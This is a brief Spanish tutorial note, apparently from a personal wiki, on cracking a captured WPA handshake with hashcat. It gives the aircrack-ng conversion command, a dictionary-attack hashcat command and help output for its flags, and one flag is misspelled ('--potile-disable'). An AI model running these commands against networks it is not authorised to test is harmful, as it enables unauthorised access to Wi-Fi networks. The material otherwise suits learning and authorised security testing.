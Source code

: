 # Fuerza bruta con HashCat

Al capturar el handshake con aircrack-ng podemos aplicar una fuerza bruta a este con [[Conceptos/Hacking Wifi/Herramientas/HashCat | HashCat]] 
para obtener el password del AC 

Primero debemos de pasar la captura ah un tipo de archivo legible para que lo comprensa hashcat

	aircrack-ng -j CapturaHCCAPX CapturaDeAuth-01.cap

Con el parametro *-j* y el nombre del nuevo archivo.

	hashcat -m 2500 -d 0 CapturaHCCAPX dicc.txt --outfile=password.txt --potile-disable

-m *Indicamos el tipo de hash, en este caso es un hash WPA*

``` bash
❯ hashcat --help | grep 2500
  25000 | SNMPv3 HMAC-MD5-96/HMAC-SHA1-96                     | Network Protocol
   2500 | WPA-EAPOL-PBKDF2                                    | Network Protocol
  12500 | RAR3-hp                                             | Archive
  22500 | MultiBit Classic .key (MD5)                         | Cryptocurrency Wallet
```

-d 0 *Indicamos el tipo dispositivo con el queremos trabajar (CPU)*
``` bash
- [ OpenCL Device Types ] -

  # | Device Type
 ===+=============
  1 | CPU
  2 | GPU
  3 | FPGA, DSP, Co-Processor
```

--outfile=password.txt *Archivo donde se guardara el resultado*
--potile-disable *Do not write potfile  

